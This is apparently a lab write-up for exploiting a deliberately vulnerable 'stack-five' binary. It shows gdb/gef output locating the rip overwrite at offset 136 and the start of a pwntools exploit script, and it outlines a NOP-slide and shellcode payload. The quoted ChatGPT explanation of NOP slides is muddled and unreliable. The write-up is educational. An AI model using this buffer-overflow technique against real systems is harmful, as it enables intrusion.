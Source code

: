 Looking through the resgisters output we see:

```bash
$rip   : 0x6161616161616172 ("raaaaaaa"?)
```

The instruction pointer was overwritten with `raaaaaaa` meaning whatever we place instead of that will be our new `rip`.

Now we use `pattern search` to find where that is in the pattern string

```bash
gef➤  pattern search 0x6161616161616172
[+] Searching '0x6161616161616172'
[+] Found at offset 136 (little-endian search) likely
[+] Found at offset 129 (big-endian search)
gef➤
```

From the binary analysis we know that this binary is little endian so now we know that the offset is `136`

# Crafting exploit

We can now start working on the exploit

```python
#!/usr/bin/env python3

from pwn import *

# Defining binary
bin = context.binary = ELF('./stack-five', checksec=False)
p = process(bin.path)
context.update(arch="amd64")

# The offset and padding we need to overflow the buffer
OFFSET  = 136
PADDING = b'A' * OFFSET
```

I am using the `pwntools` library and I create a an ELF binary object, start the proccess which will open the program to interact with with it and I set the architecture.

## Payload

Currently our exploit will take us to the address where it will overwrite `rip` and then just go into the stack. So first part of our payload will be the address to write into `rip` and then we are going to need a nop slide to make sure we hit our shellcode and then finally, our shellcode.

> When performing a buffer overflow attack, a NOP slide can help an attacker hit their shellcode by creating a region of uncertainty about the exact location of the code. By inserting a large block of NOP instructions in between the code and the shellcode, an attacker can increase the chances of their shellcode being executed, even if they do not know the exact location of the code they are trying to overwrite. - ChatGPT
